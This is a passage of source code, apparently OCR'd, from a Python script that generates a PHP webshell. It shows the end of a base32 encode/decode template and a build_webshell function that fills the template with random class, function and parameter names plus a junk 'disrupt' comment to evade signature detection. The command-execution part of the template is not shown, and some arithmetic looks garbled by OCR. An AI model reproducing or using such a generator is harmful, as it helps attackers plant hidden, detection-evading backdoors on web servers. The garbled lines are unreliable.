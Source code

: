 ```
    ${8} = '';
    $v = 0;
    $vbits = 0;
    for ($i = 0, $j = strlen(${7}); $i < $j; $i++){1}
    $v <<= 8;
        $v += ord(${7}[$i]);
        $vbits += 8;
        while ($vbits >= 5) {1}
            $vbits -= 5;
            ${8} .= $BASE32_ALPHABET[$v >> $vbits];
            $v &= ((1 << $vbits) - 1);{4}{4}
    if ($vbits > 0){1}
        $v <<= (5 - $vbits);
        ${8} .= $BASE32_ALPHABET[$v];{4}
    return ${8};{4}
function {9}(${7}){1}
    ${8} = '';
    $v = 0;
    $vbits = 0;
    for ($i = 0, $j = strlen(${7}); $i < $j; $i++){1}
        $v <<= 5;
        if (${7}[$i] >= 'a' && ${7}[$i] <= 'z'){1}
            $v += (ord(${7}[$i]) - 97);
        {4} elseif (${7}[$i] >= '2' && ${7}[$i] <= '7') {1}
            $v += (24 + ${7}[$i]);
        {4} else {1}
            exit(1);
        {4}
        $vbits += 5;
        while ($vbits >= 8){1}
            $vbits -= 8;
            ${8} .= chr($v >> $vbits);
            $v &= ((1 << $vbits) - 1);{4}{4}
    return ${8};{4}
?>'''


def random_keys(len):
    str = '`~-=!@#$%^&_+?<>|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))

def random_name(len):
    str = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))  

def build_webshell():
    className = random_name(4)
    lef = '''{'''
    parameter1 = random_name(4)
    parameter2 = random_name(4)
    rig = '''}'''
    disrupt = "\"/*"+random_keys(7)+"*/\""
    fun1 = random_name(4)
    fun1_vul = random_name(4)
    fun1_ret = random_name(4)
    fun2 = random_name(4)
    shellc = shell.format(className,lef,parameter1,parameter2,rig,disrupt,fun1,fun1_vul,fun1_ret,fun2)
    return shellc


if __name__ == '__main__':
    print (build_webshell())
```